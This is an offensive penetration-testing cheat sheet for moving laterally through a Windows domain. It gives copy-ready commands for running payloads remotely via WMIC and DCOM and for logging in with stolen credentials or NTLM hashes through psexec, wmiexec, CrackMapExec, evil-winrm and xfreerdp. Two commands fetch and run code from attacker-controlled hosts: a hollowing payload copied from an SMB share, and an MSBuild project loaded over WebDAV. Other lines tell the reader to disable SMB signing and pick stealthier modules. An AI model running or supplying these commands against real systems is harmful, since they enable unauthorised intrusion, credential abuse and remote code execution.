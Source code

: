     //Other Methods:
        //WMIC RCE method (w/ creds):
            copy \\192.168.45.158\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\file01\c$\Windows\Temp
            wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\Temp\Hollow.exe"
        //DCOM RCE method:
            [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.10.30")).Document.ActiveView.ExecuteShellCommand("c:\windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe",$null,"\\192.168.10.131\webdav\build.xml","7")


### Connect, Pivot, Elevate:  

    Connect via Creds:
        Port 22: SSH
        Port 23: Telnet
        Port 135/445:
            PsExec.exe domain/user@IP  \\  python3 psexec.py domain/user@IP
            python3 smbexec.py domain/user@IP
            wmiexec.exe domain/user@IP  \\  python3 wmiexec.py domain/user@IP
            winexe -U <domain/username>%<password> //<targetIP> cmd.exe
        Port 3389: RDP
              rdesktop [-d <DOMAIN>] -u <USERNAME> [-p <PASS>] <IP>  \\  xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP> +clipboard
        Port 5985/5986: winRM
            ruby evil-winrm.rb -i 10.0.0.20 -u user -p PASS

    Connect via Pass the Hash:
        https://blog.ropnop.com/practical-usage-of-ntlm-hashes/
        //Only works for NTLM (not NTLMv2/Net-NTLM)
        RPC:
            Show Endpoints:  python rpcdump.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105
            Connect:  pth-rpcclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105
        Port 135/445:
            PSExec:  python3 psexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105
                MSF:  use exploit/windows/smb/psexec  \\  use admin/smb/psexec_command (stealthier)
                If STATUS_ACCESS_DENIED (Command=117 WordCount=0):  set “HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters” RequireSecuritySignature to ‘0’
            *PTH-Winexe:  pth-winexe -U [domain/]offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd.exe
                Only replace after the ':'
            PTH-wmic:  pth-wmic -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105 "select Name from Win32_UserAccount"
            WMIExec:  python3 wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79  \\  sudo python3 wmiexec.py -hashes :f6084ca1a4905c45747d4bdcc1fcab84 daisy@10.11.1.122
            *CrackMapExec:  crackmapexec smb 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79 -d domain.local [-x ipconfig]  \\  sudo crackmapexec ldap 10.11.1.120/29 -u daisy -H f6084ca1a4905c45747d4bdcc1fcab84
            SMBClient:  smbclient //10.0.0.30/Finance -U user --pw-nt-hash BD1C6503987F8FF006296118F359FA79 -W domain.local  \\  python smbclient.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 ignite/Administrator@192.168.1.105  \\  pth-smbclient -U ignite/Administrator%00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 //192.168.1.105/c$
            ATExec:  python3 atexec.py -hashes 00000000000000000000000000000000:32196B56FFE6F45E294117B91A83BF38 Administrator@192.168.1.105 cmd.exe
            Mount the Share: generate Kerberos ticket first (https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
        Port 3389 (Windows 2012 R2, 8.1): Restricted Admin Mode needs to be enabled (https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)
            xfreerdp /u:offsec /d:win2012 /pth:2892d26cdf84d7a70e2eb3b9f05c425e /v:192.168.2.102
